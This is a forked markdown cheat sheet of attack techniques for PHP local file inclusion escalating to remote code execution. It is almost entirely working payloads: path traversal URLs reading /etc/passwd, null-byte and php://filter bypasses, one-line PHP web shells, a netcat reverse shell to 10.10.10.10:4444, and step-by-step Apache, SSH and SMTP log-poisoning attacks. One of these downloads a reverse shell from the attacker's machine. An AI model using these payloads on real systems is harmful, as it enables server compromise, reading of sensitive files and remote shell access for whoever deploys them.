 Fork from https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet

## Vulnerable PHP Code (LFI)

```
<?php
$file = $_GET['file'];
 include('directory/' . $file)
?>
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```
<?php
if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}
?>
```
    
## Bypassing PHP via NULL Byte
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
## Bypassing PHP via WRAPPERS
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
## PHP RCE
```
<?php system($_GET['c']); ?>
<?php system($_REQUEST['c']$); ?>

<?php
$os = shell_exec('id');
echo "<pre>$os</pre>";
?>

<?php
$os = shell_exec('nc 10.10.10.10 4444 -e /bin/bash');
?>
```

## Dangerous PHP Functions that can be abused for RCE
```
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

## LFI to RCE via Apache Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['c']); ?>" 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&c=id

OR
python -m SimpleHTTPServer 9000 
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" 
    file_put_contents('shell.php')                                // What it will be saved locally on the target
    file_get_contents('http://<local_ip>:9000/shell-php-rev.php') // Where is the shell on YOUR pc and WHAT is it called
Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

## LFI to RCE via SSH Log File Poisoning (PHP)
```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log 

Payload: ssh <?php system($_GET['c']);?>@<target_ip>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&c=id
```

## LFI to RCE via SMTP Log File Poisoning (PHP)
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log 

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id
